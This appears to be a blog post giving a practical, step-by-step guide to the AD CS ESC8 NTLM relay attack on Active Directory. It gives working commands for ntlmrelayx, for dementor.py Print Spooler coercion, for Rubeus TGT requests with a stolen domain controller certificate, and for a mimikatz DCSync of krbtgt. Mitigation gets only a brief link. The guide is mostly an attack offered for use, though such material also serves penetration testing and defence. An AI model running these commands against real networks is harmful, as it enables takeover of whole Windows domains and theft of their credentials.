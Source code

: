 ```yaml
---
title: AD CS relay attack  - practical guide
layout: post
---
```


Unless you are living under the rock, you have seen that recently [@harmj0y](https://twitter.com/harmj0y){:target="blank"} and [@tifkin_](https://twitter.com/tifkin_){:target="blank"}  published their amazing research on Active Directory Certificate Services (AD CS). If you haven't checked it out already read their [post](https://posts.specterops.io/certified-pre-owned-d95910965cd2){:target="blank"} first.

While reading their research, one specific misconfiguration caught my attention, it was "NTLM Relay to AD CS HTTP Endpoints — ESC8". In their blog post and whitepaper, they explain it in more detail, but basically, this misconfiguration lets the attacker relay user/machine authentication to the AD CS server and obtain a user/machine certificate. Once the attacker obtains the certificate, the attacker can request user/machine TGT and become that user/machine on the network. 

Since there was not public PoC for this misconfiguration and I had an upcoming pentest, I've decided to dig into it myself and try to implement it. 
I've ended up implementing this attack in impacket's "ntlmrelayx.py" tool. Currently it's an active [pull request](https://github.com/SecureAuthCorp/impacket/pull/1101){:target="blank"}.

### How to perform the attack?
To perform the attack we need ntlmrelayx listening for authentication and relaying it to the AD CS  server, as well as a way to coerce user/machine NTLM authentication to us.
There are plenty of ways of coercing user/machine authentication to a specific server, but for this guide, I will demonstrate coercing machine's authentication via well known "Print Spooler" bug.
##### *Oh yeah if you didn’t know, the print spooler attack is still valid and working fine on up-to-date windows servers.*
<br/>
Run the ntlmrelayx.py and set your Certificate Authority (CA) as a target:
``` text
python3 ntlmrelayx.py -t http://<ca-server>/certsrv/certfnsh.asp -smb2support --adcs
```

To coerce authentication of a domain controller machine I will use [dementor.py](https://github.com/NotMedic/NetNTLMtoSilverTicket/blob/master/dementor.py){:target="blank"} script to exploit the print spooler bug:
``` text
python3 dementor.py <listener> <target> -u <username> -p <password> -d <domain>
```
##### Quick tip, if dementor.py throws an error, in line 10 change "ConfigParser" to the lowercase "configparser"
<br/>
![ntlmrelayx-dementor](/assets/ntlmrelayx-dementor.png){: .center-image }

If authentication is successful ntlmrelayx will generate a new Certificate Sign Request (CSR), submit it to the CA to be signed, and download the certificate. The certificate will be displayed as a base64 blob to make it easier to use with Rubeus.

Once you've obtained the certificate you have basically owned the user/machine. All you have to do now is to request a TGT with the certificate. You can do this with [Rubeus](https://github.com/GhostPack/Rubeus){:target="blank"}.

``` text
Rubeus.exe asktgt /user:<user> /certificate:<base64-certificate> /ptt
```
``` text
Rubeus.exe asktgt /user:dc1$ /certificate:MIIRdQIBAzCCET8GCSqGSIb3DQEHAaCCETAEghEsMIIRKDCCB18GCSqGSIb3DQEHBqCCB1AwggdMAgEAMIIHRQYJKoZIhvcNAQcBMBwGCiqGSIb3DQEMAQMwDgQIMlK4N+sfacMCAggAgIIHGPCx+sJcjQRGbQANC3ePKIKAOfNeI9wgyOOXfMBWms3IAtVA2EZ0b78ky5vomY9alQdXqnDsNwdTSiBwCrM2pjrOCKkK7k12ZUdyMmL1fHC6tEv1ZQ1ERua9efEJF/uECAirxbWtwG/PImwzYNK+H8Pf0d6Yn763640sZIz6ZCe4aSJLlnhyuCjPfvB+CPIYKdmOhK8sNVb28xii71...<snip>...+NfrHtK8fzQxPG8vcBKrbW5104J399ScrUqg5tb3E3wsJeOFrxw3EKTRDElMCMGCSqGSIb3DQEJFTEWBBRJcYgdQp5tsPzn4fZ44dvnJGD/4TAtMCEwCQYFKw4DAhoFAAQUpPhhGxvtl866a+BRgIx397lDNg4ECNraSKImUUXS /ptt
```
<br/>
![ntlmrelayx-dementor](/assets/rubeus.png){: .center-image }
<br/>
![ntlmrelayx-dementor](/assets/klist.png){: .center-image }

TGT has been obtained and imported successfully. To make sure it works you can now perform a DCSync attack with mimikatz.

``` text
mimikatz # lsadump::dcsync /user:krbtgt
```

![ntlmrelayx-dementor](/assets/mimikatz.png){: .center-image }

### Mitigation
For mitigation check out the official [whitepaper](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf){:target="blank"} under the "Harden AD CS HTTP Endpoints – PREVENT8" title.

## Conclusion
In this guide, I have demonstrated how you can obtain a domain controller's machine certificate and abuse it to compromise the whole domain. Keep in mind this can attack can be used to obtain certificates of other windows (server) machines (not only domain controllers) as well as user accounts. If you would like to perform the attack against user accounts you would need to somehow coerce a user to authenticate to your server (where ntlmrelayx is running) as well as run ntlmrelayx with the "--template User" flag. In the future post, I will show how to attack the user accounts with this attack.

### Credits
All credits for this research goes to [@harmj0y](https://twitter.com/harmj0y){:target="blank"} and [@tifkin_](https://twitter.com/tifkin_){:target="blank"}. I've just implemented the attack in the impacket's ntlmrelayx tool and demonstrated how to use it.

The end!
